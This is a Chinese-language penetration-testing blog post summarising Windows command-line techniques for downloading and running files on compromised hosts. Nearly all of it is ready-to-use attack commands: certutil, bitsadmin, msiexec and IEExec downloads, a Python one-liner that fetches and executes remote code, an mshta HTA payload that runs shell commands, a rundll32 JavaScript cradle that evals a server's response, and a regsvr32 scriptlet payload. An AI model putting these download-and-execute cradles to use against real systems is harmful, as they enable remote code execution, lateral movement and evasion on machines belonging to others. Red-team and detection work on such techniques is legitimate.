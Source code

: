 ```yaml
---
layout: post
title:  "Windows下命令行下载文件总结"
date:   2017-11-08
categories: 内网渗透
permalink: /archivers/2017-11-08/1
---
```

Windows下命令行下载文件总结
<!--more-->
* 目录
{:toc}

## 0x00 Powershell

win2003、winXP不支持


$client = new-object System.Net.WebClient

$client.DownloadFile('http://payloads.online/file.tar.gz', 'E:\file.tar.gz')


## 0x01 ftp

ftp 192.168.3.2

输入用户名和密码后

lcd E:\file    # 进入E盘下的file目录

cd www # 进入服务器上的www目录

get access.log # 将服务器上的access.log下载到E:\file

可以参考：https://baike.baidu.com/item/ftp/13839

## 0x02 IPC$

copy \\192.168.3.1\c$\test.exe E:\file

可以参考：http://www.163164.com/jiqiao/163164com011.htm

## 0x03 Certutil

可以参考：https://technet.microsoft.com/zh-cn/library/cc773087(WS.10).aspx

应用到: Windows Server 2003, Windows Server 2003 R2, Windows Server 2003 with SP1, Windows Server 2003 with SP2

certutil.exe -urlcache -split -f http://192.168.3.1/test.txt file.txt

## 0x04 bitsadmin

可以参考：https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx

* 1、`bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt`
* 2、`bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt`

## 0x05 msiexec

msiexec /q /i http://192.168.3.1/test.txt

## 0x06 IEExec

C:\Windows\Microsoft.NET\Framework\v2.0.50727\> caspol -s off

C:\Windows\Microsoft.NET\Framework\v2.0.50727\> IEExec http://192.168.3.1/test.exe

## 0x07 python

C:\python27\python.exe -c "import urllib2; exec urllib2.urlopen('http://192.168.3.1/test.zip').read();"

## 0x08 mshta

mshta http://192.168.3.1/run.hta

run.hta 内容如下：

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```


## 0x09 rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%
```

其实还是依赖于WScript.shell这个组件

## 0x10 regsvr32

regsvr32 /u /s /i:http://192.168.3.1/test.data scrobj.dll

test.data内容：
```
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <!-- Learn from Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);

        ]]>
</script>
</registration>
</scriptlet>
```
 
还可以利用 https://github.com/CroweCybersecurity/ps1encode 生成sct(COM scriptlet - requires a webserver to stage the payload)

regsvr32 /u /s /i:http://192.168.3.1/test.sct scrobj.dll

## 结语

没有总结太多交互式下载文件的，这类的不太适用我们所遇到的场景，如果还有更多方式，后面再填补进来


